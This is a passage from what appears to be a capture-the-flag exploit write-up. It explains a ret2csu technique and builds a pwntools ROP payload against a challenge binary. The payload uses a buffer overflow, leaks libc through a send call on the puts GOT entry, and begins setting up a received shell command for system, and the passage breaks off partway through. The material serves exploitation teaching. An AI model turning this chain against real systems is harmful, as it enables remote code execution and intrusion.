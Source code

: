 Lastly in this block, we answer the password prompt--the password is in `main`.


```python
'''
  4015c0:       4c 89 f2                mov    rdx,r14
  4015c3:       4c 89 ee                mov    rsi,r13
  4015c6:       44 89 e7                mov    edi,r12d
  4015c9:       41 ff 14 df             call   QWORD PTR [r15+rbx*8]
  4015cd:       48 83 c3 01             add    rbx,0x1
  4015d1:       48 39 dd                cmp    rbp,rbx
  4015d4:       75 ea                   jne    4015c0 <__libc_csu_init+0x40>
  4015d6:       48 83 c4 08             add    rsp,0x8
  4015da:       5b                      pop    rbx
  4015db:       5d                      pop    rbp
  4015dc:       41 5c                   pop    r12
  4015de:       41 5d                   pop    r13
  4015e0:       41 5e                   pop    r14
  4015e2:       41 5f                   pop    r15
  4015e4:       c3                      ret
'''

pop_rbx_rbp_r12_r13_r14_r15 = 0x4015da
set_rdx_rsi_rdi_call_r15 = 0x4015c0
pop_rdi = next(binary.search(asm('pop rdi; ret')))
```

Above is the relevant code we need from `__libc_csu_init` for _ret2csu_.  This will make it easy to call GOT functions that require at least three parameters.

We'll need `pop_rdi` as well to call `printf` for the reset of `rcx`, and later for the `system` call.


```python
payload  = b''
payload += 0x418 * b'A'

# reset rcx with printf
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(binary.plt.printf)

# leak libc via send
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0)                   # rbx
payload += p64(1)                   # rbp to get pass check
payload += p64(fd)                  # r12 -> rdi, fd guess
payload += p64(binary.got.puts)     # r13 -> rsi, get the address of puts to leak
payload += p64(6)                   # r14 -> rdx, just need 6 bytes
payload += p64(binary.got.send)     # r15 pointer to function to call
payload += p64(set_rdx_rsi_rdi_call_r15)
# eat ret2csu pops
payload += p64(0) * 7

# reset rcx with printf
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(binary.plt.printf)

# recv into bss our RCE shell command
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0)                   # rbx
payload += p64(1)                   # rbp to get pass check
payload += p64(fd)                  # r12 -> rdi, fd guess
payload += p64(binary.bss())        # r13 -> rsi, buffer to recv to
```